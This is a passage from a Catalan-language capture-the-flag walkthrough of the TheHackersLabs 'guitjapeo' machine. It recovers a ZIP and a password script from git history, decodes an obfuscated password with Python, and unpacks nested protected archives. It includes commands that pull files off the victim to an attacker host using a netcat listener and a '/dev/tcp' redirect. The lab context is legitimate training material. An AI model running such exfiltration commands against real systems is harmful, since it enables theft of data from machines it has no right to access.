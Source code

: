 Troben dos fitxers `archivo.zip` i `password.txt` que no estan a la carpeta de l'aplicació, els intentem recuperar.

```bash
lenam@guitjapeo:~/.local/bin/web$ git checkout ecdef85 -- archivo.zip password.txt
lenam@guitjapeo:~/.local/bin/web$ ls -l
total 192
-rw-r--r--   1 lenam lenam   2009 Sep 20 23:50 administrador.js
-rw-r--r--   1 lenam lenam  43766 Sep 21 00:38 archivo.zip
-rw-r--r--   1 lenam lenam   5146 Sep 20 21:06 index.js
drwx------   8 lenam lenam   4096 Sep 21 00:38 isolated-data
drwxr-xr-x 224 lenam lenam  12288 Sep 20 19:38 node_modules
-rw-r--r--   1 lenam lenam    314 Sep 20 18:56 package.json
-rw-r--r--   1 lenam lenam 103530 Sep 20 19:38 package-lock.json
-rw-r--r--   1 lenam lenam    157 Sep 21 00:38 password.txt
drwxr-xr-x   4 lenam lenam   4096 Sep 20 18:56 public
drwxr-xr-x   2 lenam lenam   4096 Sep 20 18:56 views
lenam@guitjapeo:~/.local/bin/web$ cat password.txt 
# Este script está escrit en Python
def obtener_contraseña():
    return ''.join([chr(ord(c) + 1) for c in '  ..lmruuuC^'])

print(obtener_contraseña())
```

### Fichero ZIP

Ens portem a la nostra màquina atacant els fitxers trobats a l'historial de git `archivo.zip` i `password.txt`.

A la nostra màquina atacant

```bash
nc -lvnp 2121 > archivo.zip
```

i a la màquina víctima dins de la carpeta on estan els fitxers  `archivo.zip` i `password.txt`.

```bash
cat archivo.zip > /dev/tcp/192.168.1.116/2121
```

Realitzem el mateix per al fitxer `password.txt`.

El fitxer password.txt conté una programació en python que retorna una contrasenya.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python password.txt    
!!//mnsvvvD_
```

Amb aquesta contrasenya podem descomprimir el fitxer ZIP que està protegit amb contrasenya, dins d'aquest fitxer trobem altres 2 fitxers `archivo.zip` i `password.txt`.

El nou fitxer ZIP segueix estant protegit per contrasenya i al fitxer password.txt en aquesta ocasió hi ha una programació en ruby.

